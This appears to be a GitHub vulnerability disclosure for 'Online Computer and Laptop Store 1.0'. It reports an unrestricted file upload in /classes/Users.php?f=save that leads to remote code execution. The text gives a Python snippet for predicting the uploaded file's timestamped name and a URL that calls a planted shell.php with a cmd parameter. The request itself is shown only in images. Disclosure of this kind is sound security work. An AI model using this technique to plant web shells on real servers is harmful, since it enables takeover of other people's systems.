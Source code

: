 # php-ocls
php-ocls
Online Computer and Laptop Store 1.0 allows Unrestricted file upload and can lead to remote code execution. The vulnerability located in /classes/Users.php?f=save. The name of the uploaded file can be easily obtained through the timestamp.

![图片](https://user-images.githubusercontent.com/58156046/233908793-43f8a51e-ea97-4bc1-a133-24040bd21e12.png)

1. Send the request and note when it was sent.

![图片](https://user-images.githubusercontent.com/58156046/233908652-5bebd05d-ac45-44af-969c-8dbfa31c12a4.png)

2. Calculate the timestamp.

import time


timeArray = time.strptime('2023-04-24 13:40:00', "%Y-%m-%d %H:%M:%S")
time_format= time.mktime(timeArray)
print(int(time_format))


3. Get Shell.
http://192.168.3.43/php-ocls/uploads/1682314800_shell.php?cmd=phpinfo();

![asdasdasd](https://user-images.githubusercontent.com/58156046/233910339-3bdf9181-19b1-4950-bcdc-7c514c40f19d.png)
